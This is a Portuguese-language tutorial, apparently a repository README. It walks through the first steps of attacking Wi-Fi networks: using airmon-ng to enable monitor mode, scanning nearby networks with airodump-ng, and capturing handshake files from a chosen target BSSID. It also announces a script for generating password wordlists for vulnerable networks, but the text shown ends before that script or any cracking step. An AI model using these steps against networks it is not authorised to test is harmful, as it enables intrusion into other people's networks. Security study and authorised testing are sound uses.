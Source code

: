  Foi assim que veio crescendo a ideia de tentar criar um script que faz a wordlist perfeita para essas redes, apenas como teste, até porque o trabalho de uma wordlist grande e ficaz já foi reduzido sozinho. De uma determinada forma, a identificação do padrão de login/senha da rede faz parte de uma análise de reconhecimento também, acredito eu. Neste documento não apenas teremos o "passo a passo", como também mostraremos uma criação de shellscript para fazer a wordlist de qualquer rede vulnerável.


### Arquivo de informações
 Criando documento para salvar informação útil dos alvos

```bash
nano < nome >
```
`Exemplo: nano infos`

### Identificar sua interface de rede

```bash
iwconfig
```
Anotar sobre a interface no documento

### Ativar modo de monitoramento

```bash
sudo airmon-ng start < interface >
```
`Exemplo: sudo airmon-ng start wlp1s0` -> resultando na interface em modo mon: `wlp1s0mon` 
 O resultado pode ser verificado ao rodar o comando `iwconfig` novamente.

 Utilize o "**stop**" para desativar, além de pode utilizar o comando com "**status**" para verificar se está ativado ou desativado. 
 > Lembre-se de que o modo de monitoramento te desconecta da sua rede.

### Monitorar redes wi-fi próximas

```bash
sudo airodump-ng < interfacemon >
```
`Exemplo: sudo airodump-ng wlp1s0mon`

 Não esquecer de anotar as informações adquiridas nesta parte no seu documento, como ESSID (nome da rede), BSSID (endereço mac/físico) e o CH (canal).

### Monitoramento do alvo

 Nesta etapa, o monitoramento será específico para uma rede alvo com a captura dos arquivos '.cap'.

```bash
sudo airodump-ng --bssid < mac > -c < CH > -w < nome > < interfacemon >
```

ou

```bash
sudo airodump-ng --essid < wifi > -c < CH > -w < nome > < interfacemon >
```
